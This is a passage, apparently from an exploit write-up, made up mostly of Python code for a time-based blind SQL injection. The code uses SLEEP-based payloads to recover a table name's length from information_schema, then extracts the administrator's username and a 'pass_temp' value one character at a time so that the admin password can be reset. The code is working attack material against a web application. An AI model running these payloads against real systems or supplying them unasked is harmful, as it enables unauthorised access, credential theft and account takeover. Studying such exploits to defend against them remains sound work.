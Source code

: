 ```python
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1
```

Once the name's length is known, the name can be retrieved using the following function:

```python
def get_tbl_name_len(url):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_name LIKE {hex(LIKE)})>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1
```

The prefix being stored in the name we can therefore extract it and continue the exploitation.

### Extraction of the administrator's username and `pass_temp`

We still have to perform steps 2 and 3 before we can reset the administrator password.

```python
def get_elt_len(url, tbl_name, column_name):
    i = 0
    while 1:
        payload = f"IF((SELECT LENGTH({column_name}) FROM {tbl_name} LIMIT 1)>{i}, SLEEP(0), SLEEP({DELAY}))"
        if check(url, payload) >= DELTA*TRESHOLD:
            return i
        if i > 100:
            print(f"[x] Exploit failed")
            exit(-1)
        i += 1


def get_elt(url, tbl_name, column_name, length):
    elt = ""
    for i in range(1, length+1):
        min, max = 0, 127-1
        while min < max:
            mid = (max + min) // 2
            payload = f"IF((SELECT ASCII(SUBSTR({column_name},{i},1)) FROM {tbl_name} LIMIT 1)<={mid} , SLEEP({DELAY}), SLEEP(0))"
            if check(url, payload) >= DELTA*TRESHOLD:
                max = mid
            else:
                min = mid + 1
        elt += chr(min)
    return elt


def get_row(url, tbl_name):
    print(f"    [*] Dump admin's infos from {tbl_name}")
    infos = {}
    for column_name in COLUMNS:
        elt_length = get_elt_len(url, tbl_name, column_name)
        infos[column_name] = get_elt(url, tbl_name, column_name, elt_length)
    if DEBUG:
```